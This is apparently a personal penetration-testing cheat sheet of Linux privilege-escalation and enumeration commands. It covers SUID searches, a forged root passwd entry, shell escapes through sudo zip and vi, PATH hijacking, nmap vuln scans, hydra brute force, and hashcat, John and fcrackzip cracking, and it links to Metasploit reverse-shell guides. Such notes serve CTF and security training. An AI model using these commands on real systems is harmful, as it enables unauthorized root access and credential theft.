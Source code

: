 ## Finding SUID Binaries
```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```
## Create Salt Passwd
```
openssl passwd -1 -salt [salt] [password]

salt:new passwd:123

new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

## scp
```
remote to local
 scp username@remote.example.com:/remote/directory/a.txt /local/directory
 
 scp /local/test.txt user@remoteHost:/home/user/tmp/
```
local to remote
## zip escalate
```
sudo zip filename.zip filename.txt -T --unzip-command="sh -c /bin/bash"
```
## export
```
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
```


## sudo enum
```
sudo -l
```

## vi escalation
```
:!sh
```

## namp
```
allport scan
nmap -vv -sV -p- --script vuln TARGETIP

smb-enum
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>

nmap -sT -p port-number -O -sC -sV -T[1-5] -oA output-file-name ip-address

```

## dirb
```
dirb TARGETURL WORDLIST 
ex :dirb http://hogehoge /usr/share/wordlist/dirbuster/xxxxx.txt
```
## zips
```
tar.gz
-zip
tar -zcvf xxxx.tar.gz directory
-unzip
tar -zxvf xxxx.tar.gz

gz
-unzip
gunzip target

```

## hashcat
```

hashcat -m 0 hases.txt /usr/share/wordlists/rockyou.txt --force

```

## hashidentifier
```
hash-identifier
```

## John
- hash
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```


## hydra bruteforce
```
hydra -l bob -P WORDLIST -t 1 -f HOSTNAME http-get /DIR/
hydra -l bob -P /usr/share/wordlists/rockyou.txt -t 1 -f 10.10.2.215 http-get /protected/
```
## nikto
```
nikto -h host:port

```

## steg
```
steghide extract -sf ./<file to extract>.jpg
```

## zip crack
```
fcrackzip -b --method 2 -D -p /usr/share/wordlists/rockyou.txt ./file.zip
```


## enum FTPs
```
FTP 
ftp ip-address
anonymous/anonymous

NFS
showmount -e ip-address
mount ip:/file/path /local/file/path

```


## TIPS
```
cat .bash_history

find foo -exec whoami \;
```

## useful links
GTFOBins  : unix binaries list
- https://gtfobins.github.io/#


Metasploit
- reverse_tcp payload
  - https://netsec.ws/?p=331

- meterpreter basis
  - https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

hash
- hash identifier
  - https://www.tunnelsup.com/hash-analyzer/
 - hash resolver
  - https://crackstation.net/

